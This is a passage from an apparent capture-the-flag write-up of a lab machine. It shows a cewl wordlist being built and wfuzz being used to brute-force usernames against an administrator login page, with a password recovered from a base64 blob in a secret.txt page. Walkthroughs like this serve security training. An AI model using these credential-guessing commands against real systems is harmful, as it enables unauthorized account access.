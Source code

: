 As an alternative for hydra and the intruder module of burp, which is really slow for the community version, you can use [wfuzz](https://github.com/xmendez/wfuzz)

```
cewl http://$ip > cewl.list
```

I also found a comment referring to a `secret.txt` page which was a simple base64 blob (e.g.: "Curling2018!").

```
sudo pip install wfuzz
wfuzz -c -w ./cewl.list -d "username=FUZZ&passwd=Curling2018!" http://10.10.10.150/administrator/index.php
```

<img style="width:80%; height: auto" src="/assets/images/login.png">
